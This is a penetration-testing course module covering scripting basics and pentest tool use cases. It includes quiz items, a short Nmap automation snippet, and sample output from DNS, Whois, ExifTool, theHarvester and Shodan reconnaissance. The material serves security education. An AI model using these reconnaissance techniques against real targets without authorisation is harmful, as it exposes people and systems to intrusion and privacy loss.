Tools and Code Analysis
10.0 Introduction
10.0.1 Why Should I Take This Module?
I think you'll admit that there is a lot to remember if you are going to work effectively as a penetration tester. It looks daunting to someone who is just starting out. However, this is true of any field. It seems like a lot until you get to work and use your knowledge and skills everyday.
Penetration testing companies don't use everything that you have learned about in this course. They each have their own preferred tools, scripts and scripting languages, and document formats. You'll learn about these on the job.
We know that it is overwhelming, so we have included this module for you to refer to when you need to work with code or find just the right tool for the job. It is good to be familiar with everything in this module, but don't worry if you are having problems remembering specifics about every tool mentioned here. Really, just concentrate on which tools are useful for which general tasks. Then, whatever you don't remember you can always look up.

Penetration testing and ethical hacking are not just about cool tools and scripts; they require good methodologies, thinking like an attacker, and advanced technical skills. Even so, tools can help accelerate a penetration testing engagement and help it scale. In this module, you will learn about different use cases for penetration testing tools. You will also learn how to analyze the output of some of the most popular penetration testing tools to make informed assessments. At the end of the module, you will learn how to leverage the Bash shell, Python, Ruby, PowerShell, Perl, and JavaScript to perform basic scripting.
10.0.2 What Will I Learn in This Module?
Module Title: Tools and Code Analysis
Module Objective: Classify pentesting tools by use case.

10.1 Understanding the Basic Concepts of Scripting and Software Development
10.1.1 Overview
To work successfully as a penetration tester, you need to be familiar with coding, most specifically scripting languages, although knowledge of common compiled languages is also a plus. There are two major reasons for this. First, malware is code. Some of it is compiled code, and much of it is scripts. Although threat actors do as much as they can to obfuscate their code to make it hard to identify and interpret, skilled penetration testers can decipher it. At Protego, it is our duty to inform our clients of any malware that we find and the damage that it may have done. We also need to understand what the code does, because it has possibly created vulnerabilities and persistent access to our clients' systems that we need to know about.
The other reason is that we often need to automate reconnaissance and vulnerability scanning in order to make our tests more efficient and effective. Although automated scanning tools already exist, they don't always give us what we need. You will need to be able to recognize what our existing automation scripts do, how to modify them to fit our current needs, and also how to write your own.

This course and many certification exams require you to have a high-level understanding of Bash, Python, Ruby, PowerShell, and other programming languages. You should become familiar with the basics of scripting languages, such as logic constructs, data structures, libraries, classes, procedures, and functions. The following sections provide a high-level overview of these concepts.
This course does not teach you about any specific programming language. You must either already have these skills or practice and learn them from the resource links provided throughout this module.
10.1.2 Logic Constructs
Programming logic constructs are the building blocks that include the sequence or order in which instructions occur and are processed, the path a program takes when it is running, and the iteration (or repeated execution) of a section of code.
Most programming languages include the following logic constructs:
Loops
A loop is used to repeatedly execute a section of code. The most popular examples are for and while loops in different scripting languages like bash and programming languages like Python, Ruby, Perl, and JavaScript. You will learn more high-level concepts of these programming languages later in this module. Once again, this book is not intended to teach you a specific programming language. However, this module does provide you with a number of resources that will help you learn more about these programming concepts.
Conditionals
Conditionals are programming language commands that are used for handling decisions. The if statement in many programming languages, such as Python, Ruby, and Bash, is an example of a conditional statement, or conditional expression.
Boolean operators
Also known as boolean conditionals, these operators are simple words (AND, OR, NOT, or AND NOT) that are used as conjunctions to combine or exclude keywords in a search, resulting in more focused and productive results. Using Boolean operators can save you time and effort by eliminating inappropriate hits that must be scanned only to be discarded.
String operators
These operators allow you to manipulate values of variables in various useful ways. A good resource for learning about string operators in Python is https://realpython.com/lessons/string-operators.
Arithmetic operators
These operators perform mathematical operations (such as addition, subtraction, multiplication, division, and modulus) on operands.
One of the best resources for learning about different programming languages and related concepts is w3schools.com. For instance, the following link provides details about for loops in Python: https://www.w3schools.com/python/python_for_loops.asp.
Omar Santos has also added a large number of resources and tutorials about different programming concepts in his GitHub repository, at https://github.com/The-Art-of-Hacking/h4cker/tree/master/programming_and_scripting_for_cybersecurity.

10.1.3 Practice — Logic Constructs
Match the programming operators and logical constructs to their descriptions.
- conditionals — define and handle decisions based on values
- arithmetic operators — perform mathematical operations
- boolean operators — establish relationships between values to create logical conditions
- loops — execute a section of code repeatedly
- string operators — allow the manipulation of text values
10.1.4 Data Structures
The following are the most commonly used data structures in programming languages:
- JavaScript Object Notation (JSON): JSON is a lightweight format for storing and transporting data that is easy to understand. It is the most common data structure in RESTful APIs and many other implementations. You can interactively learn JSON at https://www.w3schools.com/whatis/whatis_json.asp.
- Arrays: An array is a special variable that holds more than one value at a time.
- Dictionaries: A dictionary is a collection of data values that are ordered using a key/value pair. The following is an example of a dictionary in Python:
- Comma-separated values (CSV): A CSV file is a plaintext file that contains data delimited by commas (,) and sometimes tabs or other characters, like semicolons (;).
- Lists: A list is a data structure in programming languages that contains an ordered structure of elements. The following is an example of a list in Python:
- Trees: A tree is a non-linear data structure represented using nodes in a hierarchical model. The following site includes examples of trees (or binary trees) in Python where you can learn and interact with the source code: https://www.educative.io/edpresso/binary-trees-in-python.
10.1.5 Practice — Data Structures
Match the common programming data structures to their descriptions.
- trees — a non-linear data structure represented by connected nodes in a hierarchical model
- CSV — a plaintext data file format in which data fields are separated by commas or other characters and data records are separated on new lines
- dictionaries — a collection of data values ordered using key/value pairs
- arrays — a collection of values or variables that can be selected by one or more indices
- lists — contain an ordered structure of elements
- JSON — a lightweight format for storing and transporting data
10.1.6 Libraries
A library is a collection of resources that can be reused by programs. Libraries can include the following:
- Prewritten code
- Configuration information
- Subroutines
- Documentation and help information
- Message templates
- Classes
Each programming language supports a set of standard and third-party libraries. For example, the following website describes the Python standard library: https://docs.python.org/3/library.
10.1.7 Procedures
A procedure is a section of code that is created to perform a specific task. A procedure can be used several times throughout a program. Procedures can make code simpler and more concise. Functions (covered in the next section) and procedures are very similar in nature. In some programming languages, functions and procedures are practically the same thing.
The following tutorial provides a great overview of procedures in different programming languages: https://www.advanced-ict.info/programming/functions.html.
10.1.8 Functions
A function is a block of code that is very useful when you need to execute similar tasks over and over. A function runs only when it is called.
The following are a few resources you can use to learn about functions in different programming languages:
- Python functions: https://www.tutorialspoint.com/python/python_functions.htm
- JavaScript functions: https://www.w3schools.com/js/js_function_definition.asp
- Bash functions: https://linuxize.com/post/bash-functions/
- PowerShell functions: https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/09-functions?view=powershell-7.1
10.1.9 Classes
A class is a code template that can be used to create different objects. It provides initial values for member variables and functions or methods. In object-oriented programming languages such as Java, Python, and C++, numerous components are objects, including properties and methods. A class is like a blueprint for creating objects.
The following website includes several examples of Python classes: https://www.w3schools.com/python/python_classes.asp. To learn more about JavaScript classes, see https://www.w3schools.com/js/js_class_intro.asp.
10.1.10 Analysis of Scripts and Code Samples for Use in Penetration Testing
Two of the best ways to become familiar with Bash, Python, Ruby, PowerShell, Perl, and JavaScript languages are by creating your own scripts and inspecting scripts created by others. You can easily find scripts to inspect by navigating through GitHub (including Omar Santos' GitHub repository) and even looking at exploit code in the Exploit Database, at https://www.exploit-db.com.
10.1.11 Practice — Scripting
Match the programming term to its description.
- library — a collection of reusable programming resources
- procedure — a section of code created to perform a specific task
- class — a code template that can be used to create objects
- function — a block of code that is useful for executing similar tasks repeatedly with different values
10.1.12 The Bash Shell
Bash is a command shell and language interpreter that is available for operating systems such as Linux, macOS, and even Windows. The name Bash is an acronym for the Bourne-Again shell. A shell is a command-line tool that allows for interactive or non-interactive command execution. Having a good background in Bash enables you to quickly create scripts, parse data, and automate different tasks and can be helpful in penetration testing engagements.
The following websites provide examples of Bash scripting concepts, tutorials, examples, and cheat sheets:
- Linux Config Bash Scripting Tutorial: https://linuxconfig.org/bash-scripting-tutorial
- DevHints Bash Shell Programming Cheat Sheet: https://devhints.io/bash
10.1.13 Resources to Learn Python
Python is one of the most popular programming languages in the industry. It can be used to automate repetitive tasks and create sophisticated applications; it can also be used in penetration testing.
The following websites provide examples of Python programming concepts, tutorials, examples, and cheat sheets:
- W3 Schools Python Tutorial: https://www.w3schools.com/python
- Tutorials Point Python Tutorial: https://www.tutorialspoint.com/python/index.htm
- The Python Guru: https://thepythonguru.com
- A comprehensive list of Python resources: https://github.com/vinta/awesome-python
10.1.14 Resources to Learn Ruby
Ruby is another programming language that is used in many web and other types of applications. The following websites provide examples of Ruby programming concepts, tutorials, examples, and cheat sheets:
- Ruby in Twenty Minutes tutorial: https://www.ruby-lang.org/en/documentation/quickstart/
- Learn Ruby Online interactive Ruby tutorial: https://www.learnrubyonline.org
- A GitHub repository that includes a community-driven collection of awesome Ruby libraries, tools, frameworks, and software: https://github.com/markets/awesome-ruby
The Metasploit exploitation framework mentioned often in this book was created in Ruby, and it comes with source code for exploits, modules, and scripts created in Ruby. It's a good idea to download Kali Linux or another penetration testing distribution and become familiar with the scripts and exploits that come with Metasploit. This is a good way to familiarize yourself with the structure of Ruby scripts.
10.1.15 Resources to Learn PowerShell
Throughout this book, you have learned that PowerShell and related tools can be used for exploitation and post-exploitation activities. Microsoft has a vast collection of free video courses and tutorials that include PowerShell. Search for "powershell" at learn.microsoft.com.
10.1.16 Resources to Learn Perl
There are many different online resources that can be used to learn the Perl programming language. The following are a few examples:
- TutorialsPoint Perl Tutorial: https://www.tutorialspoint.com/perl/index.htm
- PerlTutorial.org: https://www.perltutorial.org/
- PerlMaven Tutorial: https://perlmaven.com/perl-tutorial
Omar Santos has included numerous Perl resources in his GitHub repository, at https://github.com/The-Art-of-Hacking/h4cker/blob/master/programming_and_scripting_for_cybersecurity/perl.md. To view several examples of exploits written in Perl, you can execute the following command in Kali Linux or any system by using SearchSploit (https://www.exploit-db.com/searchsploit):
10.1.17 Resources to Learn JavaScript
The following are several resources that can help you learn JavaScript:
- A Re-introduction to JavaScript: https://developer.mozilla.org/en-US/docs/Web/JavaScript/A_re-introduction_to_JavaScript
- MDN JavaScript Reference: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference
- Eloquent JavaScript: https://eloquentjavascript.net/
- Code Academy introduction to JavaScript: https://www.codecademy.com/learn/introduction-to-javascript
- W3 Schools JavaScript Tutorial: https://www.w3schools.com/js/default.asp
Omar Santos has included resources that can help you learn JavaScript in his GitHub repository; see https://github.com/The-Art-of-Hacking/h4cker/search?q=javascript.
10.1.18 Practice — Programming Languages
Match the programming language to its description.
- Bash — a command shell and language interpreter that is available for operating systems such as Linux, macOS, and Windows
- Python — can be used to automate repetitive tasks and create sophisticated applications
- Ruby — used in many web and other types of applications
- PowerShell — a command shell and scripting language created by Microsoft but available for other operating systems
- JavaScript — a core technology used to build web applications
10.1.19 Lab — Analyze Exploit Code
In this lab you will interpret some scripts and commands that are entered in the shell. This will help develop your depth of knowledge regarding penetration testing software and tools.
It is important that you are able to interpret commands and scripts that you encounter as part of our penetration testing agreements with our customers.

In this lab you will interpret scripts and commands entered in the shell to develop your depth of knowledge regarding penetration testing software and tools.
Open Lab →Please answer the following questions after you have completed the lab.
What will the following commands do? (Choose two.)
smb: \> put test.txt holiday_party.txt
10.1.20 Lab — Analyze Automation Code
Vulnerability scanning and information gathering can be very time consuming. As you have seen there are a number of software products available that automate these processes by using multiple tools against multiple targets. While automated scanners are great and can do a lot for us, sometimes they don't suit our specific needs.
It is important that you work on your coding skills so that you can understand automation scripts that are written in a variety of scripting languages. You need to understand existing scripts and be able to modify them to suit our current needs. We have our own repository of automation scripts that we have developed and frequently use at Protego. You should also know enough scripting to create some of your own scripts by following examples and consulting online resources and coding forums.
In this lab, you will complete the following objectives:
- Part 1: Write a Bash script to automate an Nmap scan and store the results.
- Part 2: Differentiate between scripts written in Bash, Python, Ruby, and PowerShell.
In this lab, you will write a Bash script to automate an Nmap scan and store the results, and differentiate between scripts written in Bash, Python, Ruby, and PowerShell.
Open Lab →Video Demonstration — Select play to watch a demonstration of the lab.
Please answer the following questions after you have completed the lab.
What is true of the code below? (Choose two.)
start = 20
stop = 26
thost = '192.186.6.20'
for i in range(start,stop+1):
results = nmap.PortScanner(thost,str(i))
results = results['scan'][thost]['tcp'][i]['state']
print('Port {i} is {results}.')
10.2 Understanding the Different Use Cases of Penetration Testing Tools and Analyzing Exploit Code
10.2.1 Overview
One of the big challenges in our profession is finding the right tool for the job. As you have seen, there are many penetration testing tools available and some of them do many things. It is almost a full-time job keeping track of the tools, their functions, and how to use them. In addition, new tools are becoming available all the time, and old ones are becoming obsolete.
Penetration testers tend to settle on tools that have worked well for them in the past. It is impossible to learn and use all of the tools that are available. It is very useful, however, to understand what the most popular tools do and what tasks they are best suited for. From there, you can try them and learn, and then decide if you want to put them in your penetration testing toolbox.
The following are use cases for penetration testing tools:
- Reconnaissance
- Enumeration
- Vulnerability scanning
- Credential attacks
- Persistence
- Configuration compliance
- Evasion
- Decompilation
- Forensics
- Debugging
- Software assurance (including fuzzing, static application security testing [SAST], and dynamic application security testing [DAST])
The following sections cover the tools that are most commonly used in penetration testing engagements.
10.2.2 Penetration Testing-Focused Linux Distributions
Several Linux distributions include numerous penetration testing tools. The purpose of these Linux distributions is to make it easier for individuals to get started with penetration testing, without having to worry about software dependencies and compatibility issues that could be introduced when installing and deploying such tools. The following are the most popular penetration testing Linux distributions:
- Kali Linux
- Parrot OS
- BlackArch Linux
- BlackArch in Docker
Select each distribution for more information.
Kali Linux
Kali Linux is one of the most popular penetration testing distributions in the industry. It is based on Debian GNU/Linux, and it evolved from previous penetration testing Linux distributions (WHoppiX, WHAX, and BackTrack). A Kali Linux Live image on a CD/DVD/USB/PXE can give you access to a bare-metal installation. You can download Kali Linux from https://www.kali.org.
Kali Linux comes with hundreds of tools, and the community is constantly creating new ones and adding them to Kali. For the most up-to-date list of penetration testing tools included in Kali Linux, visit https://tools.kali.org.
Figure 10-1 shows the All Applications menu of Kali Linux, which lists all the major categories of tools included in the distribution.
Offensive Security released a free open-source book and course about how to install, customize, and use Kali Linux. The book and the course can be accessed at https://kali.training.

Parrot OS
Parrot OS is a Linux distribution that is based on Debian and focused on penetration testing, digital forensics, and privacy protection. You can download Parrot from https://www.parrotsec.org and access the documentation at https://docs.parrotsec.org.
Figure 10-2 shows a screenshot of the Parrot OS Applications menu and ecosystem.

BlackArch Linux
BlackArch Linux is a Linux distribution that comes with more than 1900 security penetration testing tools. You can download BlackArch Linux from https://blackarch.org and access the documentation at https://blackarch.org/guide.html. BlackArch Linux source code can be accessed at https://github.com/BlackArch/blackarch.
Figure 10-3 shows a screenshot of the BlackArch applications menu and ecosystem.

BlackArch in Docker
Figure 10-4 shows how to run BlackArch in a Docker container.

10.2.3 Common Tools for Reconnaissance and Enumeration
Module 3, "Information Gathering and Vulnerability Identification," covers some of the methodologies and tools that can be used for active and passive reconnaissance. The following sections discuss several additional tools that can be used for reconnaissance and enumeration.
Tools for Passive Reconnaissance
Passive reconnaissance involves attempting to gather information about a victim by using public information and records but not using any active tools like scanners or sending any packets to the victim. The industry often refers to publicly available information as open-source intelligence (OSINT).
OSINT often includes threat intelligence, and it can be used for both offensive and defensive security. In this section, when we talk about OSINT, we are talking about using it for offensive security (that is, penetration testing and ethical hacking).
The following sections describe some of the most popular passive reconnaissance and OSINT tools.
Nslookup, Host, and Dig
You can use DNS-based tools like Nslookup, Host, and Dig to perform passive reconnaissance. Example 10-1 shows Nslookup output for store.h4cker.org. This domain is a canonical name (CNAME) that is associated with pentestplus.github.io. The website is hosted on GitHub, and there are a few IP addresses that resolve to that name (185.199.108.153, 185.199.109.153, 185.199.110.153, and 185.199.111.153).
Example 10-1 — Using Nslookup for Passive Reconnaissance
Server: 172.18.108.34
Address: 172.18.108.34#53
Non-authoritative answer:
store.h4cker.org canonical name = pentestplus.github.io.
pentestplus.github.io canonical name = sni.github.map.fastly.net.
Name: sni.github.map.fastly.net
Address: 185.199.110.153
Name: sni.github.map.fastly.net
Address: 185.199.109.153
Name: sni.github.map.fastly.net
Address: 185.199.108.153
Name: sni.github.map.fastly.net
Address: 185.199.111.153
Example 10-2 shows the output of the Dig utility against the same website.
Example 10-2 — Using Dig for Passive Reconnaissance
; <<>> DiG 9.11.3-1ubuntu1.1-Ubuntu <<>> store.h4cker.org
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 11540
;; flags: qr rd ra; QUERY: 1, ANSWER: 6, AUTHORITY: 0, ADDITIONAL: 1
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;store.h4cker.org. IN A
;; ANSWER SECTION:
store.h4cker.org. 3600 IN CNAME pentestplus.github.io.
pentestplus.github.io. 3599 IN CNAME sni.github.map.fastly.net.
sni.github.map.fastly.net. 3599 IN A 185.199.111.153
sni.github.map.fastly.net. 3599 IN A 185.199.110.153
sni.github.map.fastly.net. 3599 IN A 185.199.109.153
sni.github.map.fastly.net. 3599 IN A 185.199.108.153
;; Query time: 262 msec
;; SERVER: 127.0.0.53#53(127.0.0.53)
;; WHEN: Mon Sep 03 22:02:37 UTC 2018
;; MSG SIZE rcvd: 183
omar@poseidon:~$
Whois
The Internet Corporation for Assigned Names and Numbers (ICANN) is the organization that supervises the Internet's domains and that created the Whois Data Problem Reporting System (WDPRS). Most Linux, Windows, and macOS versions support the Whois utility for querying the Whois database. You can also use Whois for reconnaissance. Unfortunately, because of the European Union's General Data Protection Regulation (GDPR), the Whois database has been restricted to protect privacy. Example 10-3 shows the output of the Whois utility when querying the h4cker.org domain.
Example 10-3 — Using Whois for Passive Reconnaissance
Domain Name: H4CKER.ORG
Registry Domain ID: D402200000006011258-LROR
Registrar WHOIS Server: whois.google.com
Registrar URL: http://domains.google.com
Updated Date: 2018-06-02T20:31:48Z
Creation Date: 2018-05-04T03:43:52Z
Registry Expiry Date: 2028-05-04T03:43:52Z
Registrar Registration Expiration Date:
Registrar: Google Inc.
Registrar IANA ID: 895
Registrar Abuse Contact Email: registrar-abuse@google.com
Registrar Abuse Contact Phone: +1.6502530000
Reseller:
Domain Status: serverTransferProhibited https://icann.org/epp#serverTransferProhibited
Registrant Organization: Contact Privacy Inc. Customer 1242605855
Registrant State/Province: ON
Registrant Country: CA
Name Server: NS-CLOUD-C1.GOOGLEDOMAINS.COM
Name Server: NS-CLOUD-C2.GOOGLEDOMAINS.COM
Name Server: NS-CLOUD-C4.GOOGLEDOMAINS.COM
Name Server: NS-CLOUD-C3.GOOGLEDOMAINS.COM
DNSSEC: signedDelegation
URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of WHOIS database: 2018-06-23T20:11:03Z <<<
For more information on Whois status codes, please visit https://icann.org/epp
Access to Public Interest Registry WHOIS information is provided to assist persons in determining the contents of a domain name registration record in the Public Interest Registry registry database. The data in this record is provided by Public Interest Registry for informational purposes only, and Public Interest Registry does not guarantee its accuracy. This service is intended only for query-based access. You agree that you will use this data only for lawful purposes and that, under no circumstances will you use this data to (a) allow, enable, or otherwise support the transmission by e-mail, telephone, or facsimile of mass unsolicited, commercial advertising or solicitations to entities other than the data recipient's own existing customers; or (b) enable high volume, automated, electronic processes that send queries or data to the systems of Registry Operator, a Registrar, or Afilias except as reasonably necessary to register domain names or modify existing registrations. All rights reserved. Public Interest Registry reserves the right to modify these terms at any time. By submitting this query, you agree to abide by this policy.
Please query the RDDS service of the Registrar of Record identified in this output for information on how to contact the Registrant, Admin, or Tech contact of the queried domain name.
FOCA
Fingerprinting Organization with Collected Archives (FOCA) is a tool designed to find metadata and hidden information in documents. FOCA can analyze websites as well as Microsoft Office, Open Office, PDF, and other documents. You can download FOCA from https://github.com/ElevenPaths/FOCA. FOCA analyzes files by extracting EXIF (exchangeable image file format) information from graphics files, as well as information discovered through the URL of a scanned website.
ExifTool
ExifTool is a popular tool for extracting EXIF information from images. EXIF is a standard that defines the formats for images, sound, and ancillary tags used by digital equipment such as digital cameras, mobile phones, and tablets. You can download ExifTool from https://exiftool.org. Example 10-4 shows output from ExifTool when it is run against an image called omar_pic.jpg.
Example 10-4 — Using ExifTool
EXIF tags in 'omar_pic.jpg' ('Motorola' byte order):
---------------------+------------------------------------------------
Tag |Value
---------------------+------------------------------------------------
Manufacturer |Apple
Model |iPhone X
Orientation |Top-left
X-Resolution |72
Y-Resolution |72
Resolution Unit |Inch
Software |11.4
Date and Time |2018:06:23 16:42:26
Exposure Time |1/40 sec.
F-Number |f/1.8
Exposure Program |Normal program
ISO Speed Ratings |25
Exif Version |Exif Version 2.21
Date and Time (Origi |2018:06:23 16:42:26
Date and Time (Digit |2018:06:23 16:42:26
Components Configura |Y Cb Cr -
Shutter Speed |5.33 EV (1/40 sec.)
Aperture |1.70 EV (f/1.8)
Brightness |4.23 EV (64.49 cd/m^2)
Exposure Bias |0.00 EV
Metering Mode |Pattern
Flash |Flash did not fire, compulsory flash mode
Focal Length |4.0 mm
Subject Area |Within rectangle (width 2217, height 1330) around (x,y) =
Maker Note |986 bytes undefined data
Sub-second Time (Ori |293
Sub-second Time (Dig |293
FlashPixVersion |FlashPix Version 1.0
Color Space |sRGB
Pixel X Dimension |4032
Pixel Y Dimension |3024
Sensing Method |One-chip color area sensor
Scene Type |Directly photographed
Exposure Mode |Auto exposure
White Balance |Auto white balance
Focal Length in 35mm |28
Scene Capture Type |Standard
North or South Latit |N
Latitude |29, 94, 51.98
East or West Longitu |W
Longitude |47, 40, 35.28
Altitude Reference |Sea level
Altitude |109.527
Speed Unit |K
Speed of GPS Receive |0.1767
GPS Image Direction |T
GPS Image Direction |235.92
Reference for Bearin |T
Bearing of Destinati |235.92
--------------------+--------------------------------------------------
omar@kali:~$
theHarvester
theHarvester is a tool that can be used to enumerate DNS information about a given hostname or IP address. It can query several data sources, including Baidu, Google, LinkedIn, public Pretty Good Privacy (PGP) servers, Twitter, vhost, Virus Total, ThreatCrowd, CRT.SH, Netcraft, and Yahoo. Example 10-5 shows the different options of the theHarvester tool.
Example 10-5 — theHarvester Tool Options
Usage: theharvester options
-d: Domain to search or company name
-b: data source: baidu, bing, bingapi, dogpile, google,
googleCSE, googleplus, google-profiles, linkedin, pgp, twitter,
vhost,virustotal, threatcrowd, crtsh, netcraft, yahoo, all
-s: Start in result number X (default: 0)
-v: Verify host name via dns resolution and search for virtual hosts
-f: Save the results into an HTML and XML file (both)
-n: Perform a DNS reverse query on all ranges discovered
-c: Perform a DNS brute force for the domain name
-t: Perform a DNS TLD expansion discovery
-e: Use this DNS server
-l: Limit the number of results to work with (bing goes from
50 to 50 results, google 100 to 100, and pgp doesn't use this option)
-h: use SHODAN database to query discovered hosts
Examples:
theharvester -d microsoft.com -l 500 -b google -h myresults.html
theharvester -d microsoft.com -b pgp
theharvester -d microsoft -l 200 -b linkedin
theharvester -d apple.com -b googleCSE -l 500 -s 300
The command theharverster is deprecated. Please use
theHarverster instead. The output will be slightly
different than shown in Example 10-5.
Example 10-6 shows the theHarvester tool being used to gather
information about the domain h4cker.org, using all data sources (-b all). You can see that the theHarvester tool found several subdomains:
backdoor.h4cker.org, mail.h4cker.org, malicious.h4cker.org,
portal.h4cker.org, store.h4cker.org, and web.h4cker.org.
Example 10-6 — Using the theHarvester Tool to Gather Information About h4cker.org
Shodan
Shodan is a search engine for devices connected to the Internet. Shodan continuously scans the Internet and exposes its results to users via its website (https://www.shodan.io) and via an API. Attackers can use this tool to identify vulnerable and exposed systems on the Internet (for example, misconfigured IoT devices, infrastructure devices). Penetration testers can use this tool to gather information about potentially vulnerable systems exposed to the Internet without actively scanning their victims. Figure 10-5 shows the results of a Shodan search for Cisco Smart Install client devices exposed to the Internet.

Example 10-7 shows the Shodan API client. In this example, the client lists high-level statistics for the query smart install. In this example, you can see the top 10 countries that have Cisco Smart Install clients exposed to the Internet.
Shodan API's client libraries can be downloaded from https://developer.shodan.io/api/clients.
Example 10-7 — Using the Shodan API Client
Top 10 Results for Facet: country
US 6,644
KR 2,637
JP 1,783
CA 1,677
IN 1,646
FR 998
BR 868
MX 661
AU 625
IT 377
Top 10 Results for Facet: org
Korea Telecom 1,230
JAB Wireless 620
LG DACOM Corporation 406
Cox Communications 389
Afghantelecom Government Network 252
Fastweb 251
Time Warner Cable 216
York University 146
Cogent Communications 131
Access Haiti S.A. 102
Example 10-8 shows the available options of the Shodan API client.
Example 10-8 — Shodan API Client Options
Usage: shodan [OPTIONS] COMMAND [ARGS]...
Options:
-h, --help Show this message and exit.
Commands:
Alert Manage the network alerts for your account
Convert Convert the given input data file into a...
count Returns the number of results for a search
data Bulk data access to Shodan
download Download search results and save them in a...
honeyscore Check whether the IP is a honeypot or not.
Host View all available information for an IP...
info Shows general information about your account
init Initialize the Shodan command-line
myip Print your external IP address
parse Extract information out of compressed JSON...
radar Check whether the IP is a honeypot or not.
scan Scan an IP/ netblock using Shodan.
search Search the Shodan database
stats Provide summary information about a search...
stream Stream data in real-time.
omar@kali:~$
Maltego
Maltego, which gathers information from public records, is one of the most popular tools for passive reconnaissance. It supports numerous third-party integrations. There are several versions of Maltego, including a community edition (which is free) and several commercial Maltego client and server options. You can download and obtain more information about Maltego from https://www.paterva.com. Maltego can be used to find information about companies, individuals, gangs, educational institutions, political movement groups, religious groups, and so on. Maltego organizes query entities within the Entity Palette, and the search options are called "transforms." Figure 10-6 shows a screenshot of the search results for a Person entity (in this case a search against this book's coauthor Omar Santos). The results are hierarchical in nature, and you can perform additional queries/searches on the results (entities).
